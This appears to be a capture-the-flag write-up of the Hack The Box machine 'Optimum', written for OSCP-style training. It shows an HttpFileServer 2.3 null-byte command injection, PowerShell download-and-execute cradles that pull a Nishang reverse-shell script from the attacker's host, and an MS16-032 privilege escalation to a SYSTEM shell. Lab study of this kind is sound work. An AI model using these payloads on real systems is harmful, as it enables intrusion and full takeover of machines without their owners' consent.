optimum


nmap
nmap -sV -sC -oA nmap/initial 10.10.10.8
Only open port is port 80 hosting HttpFileServer httpd 2.3
http

http file server 2.3 null byte exploit
Quick google search on exploits shows a few vulnerabilities we can use:


lets try adding a null byte on the webpage's searchbar for code execution:
%00{.exec|cmd.}

webpage code injection
Lets start by pinging our attacking machine from the searchbar on optimum's webpage, lets also fire up burpsuite to make things easier:code: %00{.exec|ping 10.10.14.62.}
then hit


we'll dump packets that communicate with our attack machine with tcpdump to verifiy if we recieve pings from our victim machine
tcpdump -i tun0

Powershell
Nishang
First thing is to use Nishang Powershell to set up a reverse TCP shellfirst thing is to copy the Invoke-PowerShellTcp.ps1 to our working directory

Invoke-PoweShellTcp.ps1
Here is the usage on how to set up the reverse shell:
Here is the function we call at the end of our ps1 script to have our target connect back to our attack machine:

run powershell on victim machine
note: the powershell.exe executable is often located in the locationc:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe
we're going to verify that by running powershell's absolute location through our victim's vulnerable, null-byte exploitable search function

pre URL encode
we'll start by checking if we can run a simple ping command with powershell%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe ping 10.10.14.62}

be sure to URL encode the code with CTRL+U

setting up tcpdump to listen on our vpn tunnel for pings again, we see our victim is pinging us with powershell!

upload to HFS
To upload our powershell to our victim machine, First set up an http server:

Use Powershell.exe "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.62:8000/Invoke-Powershell.ps1')
Pre URL Encoded:

Post URL Encoded: CTRL+U

reverse shell

we see the request hits our http server

and we connect back to our machines from the victim computer running Invoke-PowershellTcp.ps1:

and we get a foothold as user kostas!

Sherlock
For this box, we're going to utilize a great powershell based privilege escalation enumeration tool called sherlock here's the github for itFirst thing is to move a copy of Sherlock into our working directory:

But before we want to upload it to our victim, there is a quick line of code we'll want to add to the bottom of the script to find vulnerabilities on our victim
Find-AllVulns


Now that our Sherlock script is ready to go, lets Host it via http with SimpleHTTPServer
python -m SimpleHTTPServer

And Download it to the victim with the powershell command:
IEX(New-Object net.webclient).downloadstring('http://10.10.14.62/8000/Sherlock.ps1')

Sherlock functions
For those interested, here is a list of all of Sherlock's functions/tools, we're going to use them all with

report
the IEX powershell command instantly runs the script we upload to our victim, and the output of the Find-AllVulns scan provides the following report:



interesting finds
ms16-135 appears vulnerable!
ms16-034 appears vulnerable!

ms16-032 appears vulnerable!

MS16-032
Since Sherlock reported that Optimum is vulnerable to MS16-032, lets look into using it to escalate our privileges

In my case, I downloaded Empire off of github and moved a copy of the MS16032 to my working file directory...

 script
script 
vi MS16032
Before we upload and run our exploit, just like nishang, sherlock and most powershell scripts, we'll have to add the function we want executed to the bottom of the script, for Invoke-MS16032.ps1, it's
Invoke-MS16-032 -Command "iex(new object net.webclient).downloadstring('http://10.10.14.62/8000/shell.ps1')"

We need to make a copy of our Invoke-PowershellTcp.ps1 script so MS16-032 can run it with system privileges to call a reverse shell back to our attack machine

also, tweak the Invoke-PowerShellTcp command to point to a different port number since we're already using port 4444 from our initial foothold

run MS16-032 w/ reverse shell
we'll need to spin up an http server, set up a netcat listener and make sure both our Invoke-MS16032 and shell.ps1 scripts are configured properly for priv esc to work
spin up our http server with python -m SimpleHTTPServer in our working directory

almost there! just need to grab the exploit from our server and set up a listener on port 1337

IEX (new-object net.webclient).downloadstring('http://10.10.14.62/8000/Invoke-MS16032.ps1')

Hits the server and....

we get a reverse shell call to our netcat listener that has system privileges!

user/root
d0c39409d7b994a9a1389ebf38ef5f73
51ed1b36553c8461f4552c2e92b3eeed
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/